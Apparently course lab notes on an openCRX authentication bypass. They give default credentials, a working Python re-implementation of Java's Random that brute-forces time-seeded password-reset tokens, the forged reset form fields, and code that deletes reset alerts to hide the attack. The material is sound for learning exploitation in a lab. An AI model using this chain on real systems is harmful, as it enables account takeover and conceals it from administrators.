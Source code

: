 # Authentication Bypass

We’ve found a potential attack vector: Since the random values used to generate the `resetToken` are deterministic, if we can analyze and discover the seed (`currentTimeMilis`), we’ll be able to generate the reset token and use it to bypass authentication. 

## Default Accounts

By default, openCRX has 3 accounts with the following credential pairs:

1. guest/guest
2. admin-Standard/admin-Standard
3. admin-Root/admin-Root

## Timing Reset Request

In order to generate the token, we need to guess the seed value, the exact millisecond that the token was generated. Since `systme.currentTimeMilis()` is in UTC, we don’t need to worry about time zone differences. 

We’ll implement code that gets the current mili time, performs the password reset and then gets the current mili time again. Between this, we have about 4-500 different potential values of the seed. Since the seed is determined early in the password reset process, it’s likely the seed lies close to the lower value of our range. 

- The `date` header of our request can also be used to perform a rough sanity check, and since the values are close enough, we can proceed with the attack.

## Generating token list

Once we have the range of potential random seeds, we need to create our own token generator. 

- We can either use a Java script to do it, or view the Java documentation and re-implement this within Python
- Java source code: [Source for java.util.Random (GNU Classpath 0.95 Documentation)](https://developer.classpath.org/doc/java/util/Random-source.html)

```python
class JavaRandom():
	"""docstring for JavaRandom"""
	def __init__(self, seed):
		self.seed = (seed ^ 25214903917) & ((1<<48) -1)
		
	def next(self, bits):
		# print((self.seed * 25214903917 + 11))
		self.seed = (self.seed * 25214903917 + 11) & ((1<<48) -1)
		# print(self.seed)
		return int(self.seed >> (48 - bits))

	# Returns value from [0,n)
	def nextInt(self, n):
		bits = 0
		val = 0
		while True:
			bits = self.next(31)
			val = bits % n
			if (bits - val + (n-1) >= 0): 
				return val

	def generate_token(self, length):
		alphabet = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz"
		s = ""
		for i in range(length):
			x = self.nextInt(62)
			s += alphabet[x]
		return s

def generate_tokens(low, high):
	length = 40
	for i in range(low, high):
		rand = JavaRandom(i)
		print(rand.generate_token(length))
```

## Automating resets

During our vulnerability discovery, we found a reset link created. We’ve already discovered the `resetToken`, so we now need the values of the `providerName`, `segmentName` and `principalName`. 

```java
String resetConfirmUrl = webAccessUrl + (webAccessUrl.endsWith("/") ? "" : "/") + "PasswordResetConfirm.jsp?t=" + resetToken + "&p=" + providerName + "&s=" + segmentName + "&id=" + principalName;
```

Within the `requestPasswordReset.jsp` entry point, we find an input field that assigns the input field for `id` a placeholder value of `guest@CRX/Standard`. However, this isn’t the value that’s assigned to us in the front-end HTML. The value `CRX` has been replaced with `ProviderName` and the value `Standard` has been replaced with `SegmentName`. This suggests that we can try these values in our attack (these value mappings are also seen in `WizardInvoker.jsp`)

```html
Source code:
<input type="text" name="id" id="id" autofocus="" placeholder="ID (e.g. guest@CRX/Standard)" class="form-control" />

Front-end"
<input type="text" name="id" id="id" autofocus="" placeholder="e-mail address, login or ID (e.g. guest@ProviderName/SegmentName)" class="form-control">
```

We can refer to `passwordResetConfirm.jsp` to view the format of the form that we want to emulate in our request. We’ll need the values t (resetToken), p (providerName), s (segmentName), id, password1 and password2 for password verification. 

```html
<form role="form" class="form-signin" style="max-width:400px;margin:0 auto;" method="POST" action="PasswordResetConfirm.jsp" accept-charset="UTF-8">
	<h2 class="form-signin-heading">Reset password for <%= id %>@<%= providerName + "/" + segmentName %></h2>					
<input type="hidden" name="t" value="<%= resetToken %>" />
<input type="hidden" name="p" value="<%= providerName %>" />
<input type="hidden" name="s" value="<%= segmentName %>" />
<input type="hidden" name="id" value="<%= id %>" />
<input type="password" name="password1" autofocus="" placeholder="Password" class="form-control" />
<input type="password" name="password2" placeholder="Password (verify)" class="form-control" />
<br />
<button type="submit" class="btn btn-lg btn-primary btn-block">OK</button>
<br />
	<%@ include file="password-reset-confirm-note.html" %>					
</form>
```

## Extra Mile 9.2.5.3

Automate the entire password reset attack chain, including the deletion of any password reset
alerts that are generated.

The HTTP request that contains the notifications information is as follows:

```html
Request: 
GET /opencrx-core-CRX/ObjectInspectorServlet?requestId=3T7YDPZOE92B3IMBMG29SCXBN&event=15&parameter=pane*(0)*reference*(0)*referenceName*(alert) HTTP/1.1

Response (part of it):
td><table id="gm"><tr><td><a href="#" onmouseover="javascript:this.href='./'+getEncodedHRef(['ObjectInspectorServlet', 'requestId', 'R3PIMQW880KXBIMBMG29SCXBN', 'event', '6', 'parameter', 'xri*(xri://@openmdx*org.opencrx.kernel.home1/provider/CRX/segment/Standard/userHome/admin-Standard/alert/3T7YDY7N15ALRIMBMG29SCXBN)*origin*(0)']);onmouseover=function(){};"><img src="./images/Alert.gif" border="0" align="bottom" alt="o" title="" /></a></td><td><div id="G_0_0_row31_menu" class="gridMenu" onclick="try{this.parentNode.parentNode.onclick();}catch(e){};"><div class="gridMenuIndicator" onclick="javascript:jQuery.ajax({type: 'get', url: './'+getEncodedHRef(['ObjectInspectorServlet', 'requestId', 'R3PIMQW880KXBIMBMG29SCXBN', 'event', '44', 'parameter', 'targetXri*(xri://@openmdx*org.opencrx.kernel.home1/provider/CRX/segment/Standard/userHome/admin-Standard/alert/3T7YDY7N15ALRIMBMG29SCXBN)*rowId*(G_0_0_row31)']), dataType: 'html', success: function(data){$('G_0_0_row31_menu').innerHTML=data;evalScripts(data);}});"><img border="0" height="16" width="16" alt="" src="./images/spacer.gif" /></div><img border="0" align="bottom" alt="" src="./images/menu_down.gif" style="display:none;" /></div></td></tr></table></td>
```

We can use our initial login request response to obtain our session’s requestId, then use that value to simulate this request. Once we’ve done so, we can use regex to search for the alertId of the notifications. 

After doing so, we can then simulate the form-data to clear the notifications (Refer [here](https://stackoverflow.com/questions/12385179/how-to-send-a-multipart-form-data-with-requests-in-python) for Python Request’s Form usage, using the `form` tag with tuples of `(None, data)`).

```python
data = {
		"requestId.submit": (None, requestId),
		"reference": (None, 0),
		"pane": (None, 0),
		"size": (None, ""),
		"event.submit": (None, 28),
		"parameter.list": (None, parameterList)
	}

	target = f"http://{ip}:8080/opencrx-core-CRX/ObjectInspectorServlet"
	r = s.post(target, files=data)
	print("Cleared notifications")
```
